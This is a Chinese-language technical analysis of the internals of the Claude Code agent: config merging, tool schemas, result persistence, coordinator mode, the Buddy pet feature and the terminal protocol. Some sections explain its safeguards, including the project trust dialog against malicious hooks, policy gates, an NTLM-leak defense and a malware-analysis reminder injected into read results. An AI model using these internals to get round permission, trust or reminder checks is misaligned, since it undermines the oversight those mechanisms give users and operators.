`getCLISyspromptPrefix({isNonInteractive, hasAppendSystemPrompt})`：vertex → DEFAULT；非交互+append → SDK_CLAUDE_CODE preset；非交互 → AGENT_SDK；否则 DEFAULT。不同入口用不同前缀——交互式用 DEFAULT，SDK/非交互用 AGENT_SDK 前缀，让模型在不同入口有适配的行为。


### 100.16 toolToAPISchema 的会话级缓存

`toolToAPISchema`（api.ts:119）会话级缓存（`getToolSchemaCache()`），key = tool.name。工具 schema 转换（Zod → JSON Schema）有成本，缓存避免每轮重复转换。key 可能带 inputJSONSchema（防 StructuredOutput/MCP 同名异构）。

### 100.17 strict 模式的条件附加

`strict`（tengu_tool_pear + tool.strict + model 支持）。strict 模式让模型严格遵守 input_schema，减少参数错误。仅当 feature gate 开启 + 工具声明 strict + 模型支持时附加，避免不支持的模型报错。

### 100.18 eager_input_streaming 的输入流式

`eager_input_streaming`（firstParty + tengu_fgts）。输入流式让模型的 tool_use input 在生成时就流式发送（而非等完整 input），减少延迟。仅 firstParty 且 feature gate 开启时启用。

### 100.19 defer_loading 的延迟加载标记

`defer_loading`（tool search）标记工具为延迟加载，其 schema 不立即发送，通过 ToolSearch 按需发现。

### 100.20 filterSwarmFieldsFromSchema 的字段剔除

非 swarm 时 `filterSwarmFieldsFromSchema` 剔除 `launchSwarm`/`teammateCount`/`name`/`team_name`/`mode` 字段。swarm 字段仅在 swarm 启用时可见——非 swarm 模式下，AgentTool 不应有 name/team_name 等字段，避免模型尝试用不可用功能。

### 100.21 CLAUDE_CODE_DISABLE_EXPERIMENTAL_BETAS 的剥离

`CLAUDE_CODE_DISABLE_EXPERIMENTAL_BETAS=1` 时在唯一 choke point 剥离非基础字段（白名单 name/description/input_schema/cache_control）。这是"安全模式"——禁用所有实验性字段，只保留最基础的工具 schema，确保最大兼容性。


## 第 101 章 thinking config 决策与 fast mode 优化

第 100 章提到了 thinking config，但 adaptive 决策值得深入。

### 101.1 adaptive vs enabled 的选择

`modelSupportsAdaptiveThinking`（仅 opus-4-6/sonnet-4-6）→ `{type:'adaptive'}`，否则 `{type:'enabled', budget_tokens}`。adaptive thinking 让模型自行决定思考多少，enabled 固定预算。adaptive 更智能但仅新模型支持。

### 101.2 thinkingClearLatched 的 1h 空闲

`thinkingClearLatched` 为 1h 空闲后的 sticky latch。1 小时空闲后，thinking 被清除（latched），直到下次活动。这是"空闲降耗"——长时间空闲后清除 thinking 节省 token，假设空闲后用户回来时不需要之前的思考上下文。

### 101.3 CLAUDE_CODE_DISABLE_THINKING 的关闭

`CLAUDE_CODE_DISABLE_THINKING` 完全关闭 thinking。用于调试或成本敏感场景——thinking 增加 token 消耗，关闭它降低成本但可能降低质量。

### 101.4 maxOutputTokens-1 的预算保护

`budget_tokens: min(maxOutputTokens-1, getMaxThinkingTokensForModel)`。`maxOutputTokens-1` 确保思考预算不超过输出上限减 1——留至少 1 token 给实际输出，防止思考占满全部输出预算导致无输出。

### 101.5 contextManagement 的 thinking 清除

`contextManagement` 由 `getAPIContextManagement({hasThinking, isRedactThinkingActive, clearAllThinking: thinkingClearLatched})` 决定。这是 API 原生的上下文管理策略，让服务端帮忙清除旧 thinking 块，节省 token。


### 101.6 FAST_MODE_BETA_HEADER

`FAST_MODE_BETA_HEADER` 是 fast mode 的 beta header。fast mode 用 Claude Opus 的更快输出（不降级到小模型），通过 beta header 启用。

### 101.7 fast mode 标签的成本追踪

metrics counters 含 fast mode 标签——成本追踪区分 fast mode 与普通模式，让 Anthropic 了解 fast mode 的使用与成本。

### 101.8 /fast 命令的切换

`/fast` 命令切换 fast mode。这是用户可控的性能优化——需要更快响应时开启 fast mode。fast mode 在 Opus 5/4.8 可用。


## 第 102 章 配置系统来源合并与 schema 校验

第 38 章概述了钩子配置来源，但整个**配置系统的来源合并**机制值得深入剖析。Claude Code 的配置来自多个来源（user/project/local/policy/flag），合并优先级与策略控制构成了一个复杂的层级系统。

### 102.1 五大配置来源

| 来源 | 文件 | 作用域 | 可提交 |
|---|---|---|---|
| `userSettings` | `~/.claude/settings.json` | 全局用户 | 否（个人）|
| `projectSettings` | `.claude/settings.json` | 项目级 | 是（团队共享）|
| `localSettings` | `.claude/settings.local.json` | 项目本地 | 否（个人项目）|
| `policySettings` | managed/MDM/plist/HKLM | 企业强制 | 否（IT）|
| `flagSettings` | CLI 参数 | 会话级 | 否（临时）|

合并优先级（`settings.ts:801`）：通常 local > project > user，但 `policySettings` 是 first-source-wins（`settings.ts:323、675`）——策略设置一旦存在，其他来源不能覆盖。这确保了企业策略的不可逾越性。

### 102.2 first-source-wins 与 last-source-wins 的混合

Claude Code 的配置合并是**混合策略**：

- 大部分设置：last-source-wins（local 覆盖 project 覆盖 user）
- 策略相关设置：first-source-wins（policy 优先且不可覆盖）
- 权限规则：累积合并（allow/deny/ask 规则从所有来源累积，而非覆盖）

这种混合策略反映了不同设置的不同语义：普通设置用户应能覆盖项目默认（last-wins），但安全策略企业应能强制（first-wins），权限规则应累积（所有规则都生效）。

### 102.3 策略门控的三个层次

配置系统有三个策略门控层次：

- `disableAllHooks`：全禁所有钩子
- `allowManagedHooksOnly`：仅允许 managed 钩子（企业可强制只用自己的钩子）
- `strictPluginOnlyCustomization`：仅允许插件自定义（限制自定义范围）

这些门控让企业能精确控制"用户/项目能配置什么"。例如，高安全环境可 `allowManagedHooksOnly`，防止项目 `.claude/settings.json` 中的恶意钩子执行。

### 102.4 projectSettings 的信任边界

`projectSettings`（`.claude/settings.json`）可被提交到版本库，因此是一个**信任边界**。克隆一个恶意仓库后，其 `.claude/settings.json` 可能包含危险配置（如允许任意 Bash、注入恶意 hooks）。

Claude Code 通过多个机制防御：

- 项目信任对话框（`TrustDialog`）：首次打开项目时要求用户显式信任
- `projectSettings` 排除在 `autoMemoryDirectory` 来源之外
- 策略门控可限制 projectSettings 的影响
- MCP servers、hooks、bash 权限等敏感配置项在信任前不生效

这是"不可信输入"防御——把项目配置视为不可信，要求显式信任后才生效。


Claude Code 大量使用 Zod v4（`import { z } from 'zod/v4'`）进行 schema 校验。配置 schema 分布在 `src/schemas/` 和 `src/utils/settings/types.ts`。

### 102.5 SettingsSchema 的完整结构

`SettingsSchema`（`src/utils/settings/types.ts:255`）涵盖：

- **认证**：`apiKeyHelper`、`awsCredentialExport`、`awsAuthRefresh`、`gcpAuthRefresh`、`forceLoginMethod`、`forceLoginOrgUUID`、`otelHeadersHelper`
- **权限** `permissions`：`allow`/`deny`/`ask`（规则列表）、`defaultMode`、`disableBypassPermissionsMode`、`additionalDirectories`（第 42 行 `PermissionsSchema`）
- **模型**：`model`、`availableModels`（企业白名单）、`modelOverrides`
- **MCP**：`enableAllProjectMcpServers`、`enabledMcpjsonServers`、`disabledMcpjsonServers`、`allowedMcpServers`、`deniedMcpServers`
- **钩子**：`hooks`、`disableAllHooks`、`allowManagedHooksOnly`、`allowedHttpHookUrls`、`httpHookAllowedEnvVars`
- **策略**：`allowManagedPermissionRulesOnly`、`allowManagedMcpServersOnly`、`strictPluginOnlyCustomization`、`strictKnownMarketplaces`、`blockedMarketplaces`、`extraKnownMarketplaces`、`enabledPlugins`
- **杂项**：`env`、`attribution`、`includeCoAuthoredBy`、`includeGitInstructions`、`worktree`、`statusLine`、`fileSuggestion`、`respectGitignore`、`cleanupPeriodDays`、`outputStyle`、`language`、`skipWebFetchPreflight`、`defaultShell`、`$schema`

### 102.6 lazySchema 的循环依赖打破

`src/schemas/hooks.ts` 用 `lazySchema` 延迟构造 schema，打破 `settings/types.ts` 与 `plugins/schemas.ts` 的循环依赖。提取到独立文件是为打破循环依赖。`buildHookSchemas()` 定义 hook 配置（command 类型、shell 枚举 bash/powershell、timeout、`if` 条件用权限规则语法如 `Bash(git *)`）。

### 102.7 工具 inputSchema 的懒加载

工具的 `inputSchema` 是 Zod schema（懒加载）。`tool.inputSchema.safeParse(input)` 在 `checkPermissionsAndCallTool:615` 执行 Zod 校验。失败则返回 `InputValidationError`，并尝试 `buildSchemaNotSentHint` 提示延迟加载的工具需先 ToolSearch。MCP 工具可直接用 `inputJSONSchema`（JSON Schema）绕过 Zod。

### 102.8 条件 omit 的 schema 构建

工具 schema 按 feature/环境条件 omit 字段。例如 BashTool 的 `inputSchema` 按 `isBackgroundTasksDisabled` 条件 omit `run_in_background`；AgentTool 按 feature 条件 omit `name`/`team_name`/`mode`/`isolation`。这让同一工具在不同环境暴露不同的输入字段，避免不可用功能出现在 schema 中误导模型。


### 102.9 beta header 常量

`src/constants/betas.ts` 含 beta header 字符串常量与 provider 路由：`CLAUDE_CODE_20250219_BETA_HEADER`、`INTERLEAVED_THINKING_BETA_HEADER`、`CONTEXT_1M_BETA_HEADER`、`STRUCTURED_OUTPUTS_BETA_HEADER`、`PROMPT_CACHING_SCOPE_BETA_HEADER`、`FAST_MODE_BETA_HEADER`、`REDACT_THINKING_BETA_HEADER` 等。`BEDROCK_EXTRA_PARAMS_HEADERS`（Bedrock 只能走 extraBodyParams），`VERTEX_COUNT_TOKENS_ALLOWED_BETAS`。

### 102.10 缓存范围决策

`shouldUseGlobalCacheScope`（betas.ts:227，仅 firstParty 且未禁实验 beta）：决定是否使用全局缓存范围（跨 org）。`shouldIncludeFirstPartyOnlyBetas`（L215）、`modelSupportsStructuredOutputs`（L142，仅 firstParty/Foundry 且特定模型）、`getAllModelBetas`（L234 memoize）。

### 102.11 beta header latch

beta header latch（`bootstrap/state.ts:413-417`）是会话级 sticky——一旦在会话中评估并设置（如 AFK/fast-mode/cache-editing），后续轮次复用，不重新评估。`clearBetaHeaderLatches`（state.ts:1744）在 /clear、/compact 时重置，以便新对话重新评估。这是性能优化——避免每轮都重新评估 beta header 资格，同时保证新对话从干净状态开始。


第 51 章提到 migrations 不是记忆数据迁移，而是用户设置/模型别名的一次性迁移，值得展开。

### 102.12 模型映射迁移

模型映射迁移：`migrateFennecToOpus.ts`、`migrateLegacyOpusToCurrent.ts`、`migrateOpusToOpus1m.ts`、`migrateSonnet1mToSonnet45.ts`、`migrateSonnet45ToSonnet46.ts`。这些迁移处理模型名/别名变更——当模型升级（如 sonnet-4-5 → sonnet-4-6），旧配置里的别名需要替换为新名。

一次性迁移在启动时执行（`runMigrations()`，main.tsx:950），检查配置中的旧模型名并替换。这确保了升级后旧配置仍能用——用户不需要手动改配置，迁移自动处理。

### 102.13 设置迁移

设置迁移：`migrateAutoUpdatesToSettings.ts`、`migrateBypassPermissionsAcceptedToSettings.ts`、`migrateEnableAllProjectMcpServersToSettings.ts`、`migrateReplBridgeEnabledToRemoteControlAtStartup.ts`。这些处理设置项的重命名/重组——当设置结构变化（如某项从全局移到 settings），旧位置的数据迁移到新位置。

### 102.14 reset 的 opt-in 重置

重置：`resetAutoModeOptInForDefaultOffer.ts`、`resetProToOpusDefault.ts`。这些不是迁移而是重置——在某些情况下（如新默认 offer），重置用户的 opt-in 状态让其重新看到提示。这是"产品策略变更"的配置同步。

migrations 与记忆系统无直接数据关联，属配置升级路径——它们确保了 Claude Code 版本升级时配置的平滑过渡。


## 第 103 章 工具结果落盘与延迟加载

第 28 章概述了结果格式化，但其**落盘机制与上下文预算**值得深入剖析。工具结果的大小可能极大（如 64MB 的命令输出），如果全部注入上下文会立即撑爆。Claude Code 用落盘 + 预览 + 预算机制管理这一挑战。

### 103.1 maxResultSizeChars 与落盘阈值

每个工具有 `maxResultSizeChars`（`Tool.ts:466`），超过此字符数则结果落盘。BashTool 的输出 > `MAX_PERSISTED_SIZE`（64MB）截断，`link`/`copyFile` 到 tool-results 目录。Read 设为 `Infinity`（不落盘），避免 Read→file→Read 循环——如果 Read 结果落盘，模型可能想 Read 落盘的文件，又触发落盘，无限循环。

### 103.2 persisted-output 预览

落盘后，模型只收到 `<persisted-output>` 预览（`buildLargeToolResultMessage`）。预览是结果的摘要（如命令输出的头部 + 尾部 + 省略号），让模型知道结果存在且大致内容，但不占满上下文。如果模型需要完整结果，可以通过专门的工具读取落盘文件（但这种情况少见）。

### 103.3 applyToolResultBudget 与工具结果预算

`applyToolResultBudget`（`query.ts:379`）在消息预处理管道中对工具结果施加预算。这是除了落盘之外的第二道防线——即使单个工具结果未超 maxResultSizeChars，累积的工具结果仍可能过多。预算机制按优先级裁剪（保留最近的、重要的），确保总工具结果不占满上下文。

### 103.4 microcompact 的 cache_edits 优雅删除

`microcompactMessages` 的 cached microcompact（`microCompact.ts:305`）用 **cache_edits API 直接删除旧 tool_result**，不改本地消息内容、不破坏缓存前缀。这是最高效的工具结果裁剪方式。

cache_edits 是 Anthropic API 的特性，允许在缓存层面删除特定内容块，而不重发整个消息。这意味着：本地消息历史仍保留完整 tool_result（便于 transcript 回放），但发给 API 的请求中旧 tool_result 被删除（节省 token）。缓存前缀（更早的内容）不受影响，命中率保持。这是"本地完整性"与"API 经济性"的完美平衡。

### 103.5 time-based microcompact 的 content-clear

time-based microcompact（`maybeTimeBasedMicrocompact`，`microCompact.ts:422`）在距上条 assistant 消息超阈值（服务端缓存已过期）时，直接 content-clear 旧 tool_result（替换为 `[Old tool result content cleared]`，`TIME_BASED_MC_CLEARED_MESSAGE`，`microCompact.ts:36`）。

这一分支的条件是"服务端缓存已过期"——既然缓存已过期，前缀已不可复用，不如直接清除旧 tool_result 内容，既省 token 又不影响缓存（因为已无缓存可破坏）。这是对"何时可以安全清除"的精确判断：有缓存时用 cache_edits（保前缀），无缓存时直接 clear（无前缀可保）。


### 103.6 contextModifier 的上下文修改

`ToolResult.contextModifier` 允许工具修改执行上下文。如 Read 工具更新 readFileState（记录已读文件 mtime），供后续 Read 去重。contextModifier 让工具能"影响后续工具执行"——不仅返回结果，还修改共享上下文。

### 103.7 并发工具的延迟应用

对于并发安全工具，contextModifier **延迟到 batch 结束统一应用**（`toolOrchestration.ts`）。避免并发工具的 context 修改相互覆盖。对于非并发安全工具（串行执行），context modifier 立即应用（无并发冲突）。

### 103.8 仅非并发安全工具生效

注释：`contextModifier` 仅对非并发安全工具生效。并发安全工具的 contextModifier 延迟应用可能丢失（如果 batch 内有多个工具都修改同一上下文）。这是"并发安全"的权衡——并发安全工具应尽量不修改共享上下文，只读取。

### 103.9 validateContentTokens 的超限报错

FileReadTool 的 `callInner`（`:804`）对 text 用 `readFileInRange`（`:1019`）单次异步读，`validateContentTokens` 估算 token 超限报错。这是"读取前预估"——如果文件太大（token 超限），不读取直接报错，避免读取后才发现太大无法发送。

### 103.10 readImageWithTokenBudget 的按预算压缩

图片：`readImageWithTokenBudget`（`:1097`）一次读取，按 token 预算压缩。图片在 API 中按 token 计费（约 1000-2000 token/张），大图会占满上下文。按预算压缩让图片在 token 预算内——如果预算小，压缩更狠；预算大，质量更高。

### 103.11 isBlockedDevicePath 的挂起防御

`isBlockedDevicePath`（`:117`）拦截 `/dev/zero`、`/dev/random`、`/proc/*/fd/0-2` 等会挂起的设备文件。这些设备文件读取会无限阻塞（如 `/dev/zero` 无限返回 0，`/dev/random` 阻塞等熵），不拦截会让 Read 工具挂死。

### 103.12 UNC 路径的 NTLM 凭据泄露防御

UNC 路径跳过 fs 操作防 NTLM 凭据泄露。UNC 路径（`\\server\share`）访问远程服务器可能触发 NTLM 认证，泄露凭据。跳过 fs 操作（不实际访问 UNC 路径）防御了这一风险。

### 103.13 CYBER_RISK_MITIGATION_REMINDER 的恶意软件分析提醒

`mapToolResultToToolResultBlockParam`（`:652`）：text→加行号 + `CYBER_RISK_MITIGATION_REMINDER`（恶意软件分析提醒，opus-4-6 豁免）。当模型读取可能含恶意代码的文件，提醒注意网络安全——如不要执行文件中的可疑命令。opus-4-6 豁免是因为该模型被认为足够强大，能自行判断风险。

### 103.14 FileEditTool 的 checkTeamMemSecrets 泄密拦截

FileEditTool 的 `validateInput`（`:137`）：`checkTeamMemSecrets` 拦截 team memory 文件泄密。如果模型试图编辑 team memory 文件（可能含团队密钥/凭据），checkTeamMemSecrets 拦截，防止通过编辑工具泄露团队记忆中的敏感信息。

### 103.15 MAX_EDIT_FILE_SIZE 的 1GB 防 OOM

`MAX_EDIT_FILE_SIZE`（1GB）防 OOM。编辑超大文件需要读入内存，1GB 上限防止 OOM 崩溃。超过 1GB 的文件不应通过 Edit 工具编辑（应分段处理或用其他方式）。


### 103.16 shouldDefer 的延迟加载

工具的 `shouldDefer?` / `alwaysLoad?`（`Tool.ts:442/449`）控制 ToolSearch 延迟加载。`shouldDefer: true` 的工具不立即加载到系统提示，而是通过 ToolSearch 按需发现。这减少了系统提示的初始体积——40+ 工具全部描述会很长，延迟加载只暴露常用工具，冷门工具按需加载。

### 103.17 ToolSearchTool 的发现机制

ToolSearchTool 让模型通过关键词搜索发现延迟加载的工具。模型调用 ToolSearch 时提供关键词，返回匹配的工具列表（含 searchHint 匹配）。这让模型能"按需发现"工具——当任务需要某冷门工具时，模型搜索发现它，然后调用。

### 103.18 searchHint 的关键词匹配

`searchHint?`（`:378`）给 ToolSearch 关键词匹配用（3-10 词）。工具定义 searchHint 让其更易被 ToolSearch 发现——如某工具的 searchHint 是 "git diff code review"，模型搜索"diff"时能发现它。

### 103.19 buildSchemaNotSentHint 的提示

`buildSchemaNotSentHint`（toolExecution.ts:578）在 Zod 校验失败时提示延迟加载的工具需先 ToolSearch。如果模型尝试调用一个延迟加载（未发送 schema）的工具，会校验失败。`buildSchemaNotSentHint` 提示"这个工具的 schema 未发送，先用 ToolSearch 发现它"，引导模型正确发现工具。


### 103.20 fileHistory 的追踪

FileEditTool/FileWriteTool 共享文件历史追踪（`src/utils/fileHistory.ts`），支持 undo。每次编辑/写入前保存文件历史，用户可通过 undo 恢复。这是安全网——即使用户或模型误操作，也能撤销。

### 103.21 readFileState 的 LRU 缓存

`FileStateCache`（Tool.ts 中的 `readFileState`）是 LRU 缓存，记录已读文件的 mtime。FileReadTool 的去重优化（`:536-573`）：`readFileState` 命中同范围且 mtime 未变 → 返回 `file_unchanged` stub（省 cache_creation token）。这避免了重复读取未变化的文件，大幅节省 token。

### 103.22 LSP 诊断清理

FileEditTool/FileWriteTool 在编辑后清理 LSP 诊断（VS Code 通知、LSP 诊断清理），确保 IDE 的诊断信息与文件状态同步。这是与 IDE 集成的细节——文件修改后主动通知 IDE 更新诊断，而非等 IDE 重新检测。


## 第 104 章 Coordinator 模式的 LLM 编排哲学

第 32 章概述了 Coordinator 模式，但其**LLM 编排哲学**值得深入剖析。Coordinator 模式体现了一种与传统软件工程截然不同的编排思路——把并发控制交给 LLM 而非代码。

### 104.1 无硬编码并发的哲学

传统多任务系统的并发控制是代码层的：线程池大小、信号量、互斥锁。Coordinator 模式却选择**无硬编码并发上限**，靠主代理在单条消息内发多个 `Agent` 调用实现并行。这背后的哲学是：**LLM 比硬编码规则更懂得何时该并行**。

例如，研究三个不同子系统时，LLM 知道它们相互独立，应并行；而在实现阶段修改相互依赖的文件时，LLM 知道应串行避免冲突。这种"上下文感知的并发决策"是硬编码规则无法企及的——规则只能基于固定模式（如"只读操作可并行"），无法理解具体任务的结构。

### 104.2 四阶段工作流的编排模板

Coordinator 系统提示（`getCoordinatorSystemPrompt`，`coordinatorMode.ts:111`）定义四阶段工作流：

1. **Research（并行）**：多个 worker 并行收集信息
2. **Synthesis（主代理）**：汇总研究结果
3. **Implementation**：执行实现
4. **Verification**：验证结果

这是一个"编排模板"——不是代码强制的流程，而是通过提示词引导 LLM 遵循的最佳实践。LLM 可以根据任务偏离模板（如简单任务跳过 Research 直接 Implementation），但模板提供了默认结构。这种"软约束优于硬约束"的思想贯穿 Claude Code 的多代理设计。

### 104.3 scratchpad 的跨 worker 知识

`getCoordinatorUserContext`（`coordinatorMode.ts:80`）告诉主代理 worker 能用哪些工具、MCP 服务器、scratchpad 目录（`tengu_scratch` gate）。scratchpad 是跨 worker 持久知识——worker 可以把中间结果写到 scratchpad，其他 worker 读取。

这解决了一个微妙问题：worker 之间默认隔离（独立上下文），但有时需要共享中间结果。通过文件系统（scratchpad 目录）而非消息传递，worker 可以异步地共享知识，无需直接通信。这是一种"黑板架构"——多个 agent 通过共享文件系统协作，而非显式消息。

### 104.4 唯一硬约束：claimTaskWithBusyCheck

Coordinator 模式唯一的硬性并发约束是 `claimTaskWithBusyCheck`（`tasks.ts:618`）——一个 agent 同时只能认领一个未完成共享任务。这是为了防止"贪婪 agent"认领所有任务导致其他 agent 空闲。

这一约束是必要的，因为 LLM 的任务认领行为不可预测——一个 agent 可能在一轮中认领多个任务，而其他 agent idle。busy 检查确保任务在 agent 间均衡分配。但这是"防贪婪"而非"调度优化"——它不主动分配任务（那是 LLM 的职责），只防止一个 agent 独占。


## 第 105 章 Buddy 系统的防作弊与渲染状态机

第 67-69 章概述了 Buddy 系统，但其**防作弊设计**是一个值得深入剖析的工程范例。Buddy 系统面对一个独特挑战：它有"稀有度"概念，传奇宠物（1% 概率）具有稀缺价值，但所有数据都存在本地配置文件中，用户有动机也有能力篡改配置获得传奇宠物。

### 105.1 骨头与灵魂的分离

Buddy 的设计将宠物分为两部分：

- **骨头（Bones）**：稀有度/物种/眼睛/帽子/闪光/属性——确定性部分，从 hash(userId) 推导，**不持久化**
- **灵魂（Soul）**：名字/性格——LLM 生成部分，首次孵化后存入 config

`StoredCompanion`（实际持久化到 config 的类型）只含 `name`、`personality`、`hatchedAt`，**不含稀有度/物种/属性**。这意味着用户即使打开配置文件，也看不到稀有度字段——因为它根本不在配置里。

### 105.2 getCompanion 的覆盖合并

`getCompanion`（`companion.ts:127-133`）：

```ts
const { bones } = roll(companionUserId())
return { ...stored, ...bones }   // bones 放最后，覆盖旧格式 config 里残留的骨头字段
```

bones 放在最后，意味着即使旧格式 config 里残留了骨头字段（如旧版本曾持久化过），也会被重新推导的 bones 覆盖。用户无法通过编辑 config 的稀有度字段来伪造传奇——因为每次 getCompanion 都从 userId 重新推导 bones，覆盖任何配置中的值。

### 105.3 防作弊的深层原理

这一防作弊设计的精妙之处在于：**它不依赖加密或签名，而是依赖"信息不在配置里"**。传统防作弊会加密稀有度字段、用签名验证完整性，但只要密钥在客户端，总能被破解。Buddy 的方法更彻底——稀有度根本不存在于可篡改的存储中，它是在运行时从 userId 推导的。

用户能篡改的唯一输入是 userId（通过 OAuth 账号），但改 userId 等于换账号，且新 userId 的稀有度是随机的（可能更差）。这把"防作弊"问题转化为"控制 userId 来源"问题——只要 userId 来自可信的 OAuth 提供商且不可被用户直接编辑，防作弊就成立。

### 105.4 字符串混淆与代号金丝雀

`types.ts` 中物种名用 `String.fromCharCode` 逐字符构造，而非字面量。注释解释：其中一个物种名与 `excluded-strings.txt` 的**模型代号金丝雀**冲突。这揭示了 Claude Code 内部维护着一个"禁止出现的模型代号"列表（如 Capybara、Tengu），构建时会 grep 检查产物中是否包含这些代号。

物种名中恰好有一个与代号冲突（如 "capybara" 既是 Buddy 物种又是模型代号）。如果用字面量，grep 检查会误报。通过运行时 `String.fromCharCode` 构造，源码中没有字面量 "capybara"，grep 检查通过；但运行时产出的字符串仍是 "capybara"，功能正常。这是在"构建时静态检查"与"运行时动态值"之间的巧妙平衡。

### 105.5 兴奋态与待机态的帧选择

帧选择逻辑（第 246-257 行）：

- **兴奋态**（有台词或正在被摸）：`tick % frameCount` 快速循环所有帧。兴奋态让宠物"活跃"——快速循环所有帧产生动画效果，配合台词或摸头反馈。
- **待机态**：走 `IDLE_SEQUENCE = [0,0,0,0,1,0,0,0,-1,0,0,2,0,0,0]`。待机态让宠物"呼吸"——绝大多数是帧 0（休息），偶尔帧 1-2（fidget/小动作），`-1` 表示眨眼。

`IDLE_SEQUENCE` 的设计精心——15 个 tick（7.5 秒）一个周期，其中 11 个是帧 0，2 个帧 1，1 个帧 2，1 个眨眼。这让待机态不单调（偶尔有动作）但也不喧宾夺主（大部分时间休息）。

### 105.6 眨眼的字符替换

眨眼实现（第 258 行）：`blink` 时把精灵所有行里的 `companion.eye` 字符替换成 `-`（闭眼）。这是一个简单但有效的技巧——不单独画闭眼帧，而是动态替换眼睛字符为 `-`。

这种"字符替换"而非"独立帧"的设计节省了精灵图体积——不需要为每个物种画闭眼帧，只需运行时替换字符。代价是闭眼效果依赖眼睛字符的形状（`·`→`-` 比 `◉`→`-` 效果差），但这是可接受的折中。

### 105.7 三档终端宽度的渐进降级

三档终端宽度布局：

1. **窄终端（columns < 100）**：塌缩成单行——只渲染 `renderFace()` 表情 + 名字/台词
2. **宽终端 + 非全屏**：气泡内联贴在精灵左边
3. **宽终端 + 全屏**：气泡由 `CompanionFloatingBubble` 渲染在 `bottomFloat` 槽位

这种渐进降级让 Buddy 在各种终端宽度下都能显示——窄终端不挤占空间（单行），宽终端完整显示（精灵+气泡）。`MIN_COLS_FOR_FULL_SPRITE = 100` 是经验阈值，100 列足以容纳 12 列宽的精灵+气泡。

### 105.8 companionReservedColumns 的输入框避让

`companionReservedColumns(terminalColumns, speaking)`（第 167-175 行）：计算精灵区占用的列宽，PromptInput 据此让文字换行避开精灵。非全屏且说话时额外预留 `BUBBLE_WIDTH`(36)；窄终端返回 0。

这让宠物不遮挡输入文本——输入框知道精灵占多少列，文字在精灵旁边换行，不被覆盖。这是一个细致的 UX 考量——宠物是装饰，不应干扰用户输入。

### 105.9 PET_HEARTS 的摸头反馈

`PET_HEARTS` 是 5 帧由 `figures.heart` 拼成的上升扩散动画，`petting` 期间 prepend 在精灵上方。`/buddy pet` 后爱心漂浮 2.5 秒（`PET_BURST_MS = 2500`）。

摸头反馈是 Buddy 的情感交互设计——用户通过 `/buddy pet` 摸宠物，宠物用爱心动画回应。这种"无功能但有情感"的设计让 Buddy 真正像电子宠物，而非纯装饰。


### 105.10 isBuddyTeaserWindow 的时区选择

`isBuddyTeaserWindow()`（第 12-16 行）：**2026 年 4 月 1-7 日**的预告窗口（本地时区而非 UTC）。注释解释（第 9-11 行）：形成 24 小时滚动传播，避免 UTC 午夜集中尖峰，减轻 soul 生成负载。

如果用 UTC，全球用户在同一 UTC 时刻看到预告，集中触发 soul 生成（LLM 调用），产生负载尖峰。用本地时区，不同时区用户在不同时间看到预告，负载分散到 24 小时，平滑了尖峰。这是"时区分散负载"的运维智慧。

### 105.11 15 秒通知的超时

`addNotification` 添加 key 为 `'buddy-teaser'`、`priority: 'immediate'`、`timeoutMs: 15000` 的彩虹 `/buddy` 提示。15 秒足够用户注意到并阅读，但不至于长时间占据通知区。`priority: 'immediate'` 让预告优先于其他通知显示。

### 105.12 RainbowText 的逐字符染色

`RainbowText`（第 22-36 行）把文本逐字符用 `getRainbowColor(i)` 染成彩虹色。这呼应了 Buddy 的趣味性——预告用彩虹色吸引用户注意。`getRainbowColor(i)` 按字符索引循环彩虹色，产生流动的彩虹效果。

### 105.13 findBuddyTriggerPositions 的输入高亮

`findBuddyTriggerPositions(text)`（第 79-97 行）用 `/\buddy\b/g` 找到输入文本中所有 `/buddy` 触发位置。这让用户输入 `/buddy` 时，文本高亮提示"这会触发 Buddy"。这是一种"渐进披露"——用户输入时即时反馈命令效果，而非等执行后才知道。


## 第 106 章 自研 Ink 终端协议与状态管理

第 63 章概述了自研 Ink，但其**终端协议层（termio）**的深度值得剖析。标准 Ink 只用基础 ANSI，而 Claude Code 的 termio 层实现了完整的终端协议栈，这是它在终端中实现复杂 UI（选区、搜索、鼠标、alt screen）的基础。

### 106.1 CSI/DEC/OSC/SGR 分词

termio 层将终端输出解析为四类控制序列：

- **CSI（Control Sequence Introducer）**：光标移动、颜色、清屏等，以 `ESC [` 开头
- **DEC（DEC Private Mode）**：如 `?1049`（alt screen）、`?1003`（鼠标跟踪）、`?25`（光标显示），以 `ESC [ ?` 开头
- **OSC（Operating System Command）**：终端标题、超链接（OSC 8）、主题探测（OSC 11）、工作目录，以 `ESC ]` 开头
- **SGR（Select Graphic Rendition）**：文本样式（粗体、颜色、下划线等），CSI 的子集

分词器（`termio/parser`、`tokenize`）把字节流解析为这些序列的结构化表示，让 Ink 能精确理解终端状态。这是实现"在 alt screen 内做文本选区"等高级功能的前提——必须知道当前在 alt screen、知道光标位置、知道哪些字符有样式。

### 106.2 OSC 8 超链接

OSC 8（`ESC ] 8 ;; URL ST text ESC ] 8 ;; ST`）让终端中的文本可点击，链接到 URL。Claude Code 用此功能让文件路径、URL 等在终端中可点击（如错误消息中的文件路径点击打开编辑器）。这比传统的"复制路径到浏览器"体验流畅得多。

### 106.3 OSC 11 主题探测

OSC 11 查询终端背景色。`ThemeProvider.tsx:48-80` 用此实现 auto 主题——读取终端底色，自动选择 dark/light 主题。这比要求用户手动设置主题更智能，适配不同终端默认配色。

### 106.4 Kitty keyboard 与 modifyOtherKeys

Kitty keyboard protocol 和 modifyOtherKeys 是现代终端的增强键盘协议，能区分更多按键组合（如 Ctrl+Shift+字母、Meta 组合）。Claude Code 检测终端是否支持这些协议，支持则启用更丰富的键绑定（如 `ctrl+x ctrl+k` chord）。这是对终端能力的渐进增强——基础终端用基础 ANSI，高级终端用增强协议。

### 106.5 外部 TUI 交接

`enterAlternateScreen`/`exitAlternateScreen`（`ink.tsx:357-419`）处理外部 TUI（vim/nano）交接。当用户通过 BashTool 启动 vim，Ink 暂停渲染，把终端控制权交给 vim；vim 退出后，Ink 全量重绘恢复。这要求 Ink 能正确保存/恢复终端状态（光标位置、alt screen 模式、颜色等），否则 vim 退出后终端会乱掉。

### 106.6 useSyncExternalStore 的 selector 模式

`useAppState(selector)`（`AppState.tsx:142`）基于 `useSyncExternalStore(store.subscribe, get)`，selector 返回值用 `Object.is` 比较，仅在切片变化时重渲染。这是 React 18 的 `useSyncExternalStore` 的标准 selector 模式。

`get = () => selector(store.getState())`——每次渲染调用 selector 提取切片。`useSyncExternalStore` 用 `Object.is` 比较 get 的返回值，仅在变化时触发重渲染。这避免了手动 `useMemo`/`useCallback` 的复杂性。

### 106.7 禁止返回新对象的约束

